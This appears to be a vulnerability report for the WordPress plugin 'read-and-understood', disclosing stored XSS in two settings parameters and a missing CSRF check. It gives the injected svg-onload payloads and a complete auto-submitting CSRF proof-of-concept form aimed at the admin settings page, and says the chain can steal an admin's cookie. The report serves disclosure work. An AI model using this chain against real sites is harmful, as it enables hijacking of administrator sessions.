 Well ,sir ,I just found some Stored-XSS bugs and a CSRF bug at wp-plugin read-and-understood.

#### ADLab of Venustech

#### Stored-XSS

When the admin user click the "Save changes" button in the read-and-understood setting page, we'll post some data to:

```
http://127.0.0.1/wordpress/wp-admin/options-general.php?page=read-and-understood-menu-slug-01
```

But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameters:

```
1.rnu_username_validation_title=at+least+one+but+no+more+than+10+capital+letters'"><svg/onload=console.log(/xss/)><'"
2.rnu_username_validation_pattern=%5BA-Z%5D%7B1%2C10%7D'"><svg/onload=console.log(/xss2/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/read-and-understood/xss.png)


#### CSRF

Well, the stored-xss bugs here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/wordpress/wp-admin/options-general.php?page=read-and-understood-menu-slug-01" method="POST">
      <input type="hidden" name="rnu&#95;username&#95;validation&#95;pattern" value="&#91;A&#45;Z&#93;&#123;1&#44;10&#125;&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss2&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="rnu&#95;username&#95;validation&#95;title" value="at&#32;least&#32;one&#32;but&#32;no&#32;more&#32;than&#32;10&#32;capital&#32;letters&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="rnu&#95;username" value="" />
      <input type="hidden" name="Submit" value="Save&#32;Changes" />
      <input type="hidden" name="submit&#95;hidden" value="Y" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin read-and-understood.
